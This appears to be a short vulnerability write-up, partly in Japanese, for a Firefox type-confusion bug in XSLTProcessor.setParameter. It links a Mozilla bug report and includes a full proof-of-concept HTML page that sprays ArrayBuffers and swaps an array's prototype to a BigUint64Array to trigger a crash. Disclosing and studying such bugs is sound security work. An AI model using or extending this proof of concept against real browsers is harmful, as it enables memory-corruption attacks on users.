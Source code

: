 # BigInt and Object type confusion vulnerability exploitable via XSLTProcessor setParameter method

XSLTProcessor の SetParameter Methodを介して、悪用可能なBig Int および、Objectタイプの混乱 (type confusion)の脆弱性

https://bugzilla.mozilla.org/show_bug.cgi?id=1603055


以下、PoCの poc.html を読み込むと、クラッシュが発生する。

```html
<!DOCTYPE html>
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8"></meta>
<script type="text/javascript">
function main(){
  var arr_vec = new Array(0x10000);
  for(var i = 0 ;i < arr_vec.length;i++)
  {
    arr_vec[i] = new ArrayBuffer(0x100);
  }
  alert("wait attach");
  var arr = [0x41414141]
  var mXSLTProcessor = new XSLTProcessor();
  arr.length = (12);
  var bigUint64Arr  = new BigUint64Array(new ArrayBuffer(0x100));
  bigUint64Arr[1] = BigInt(0x4242424242424242n);
  arr.__proto__ = bigUint64Arr;
  mXSLTProcessor.setParameter(('e'),('prop'),arr);
}
</script>
</head>
<body onload="main()">
</body>
</html>

```
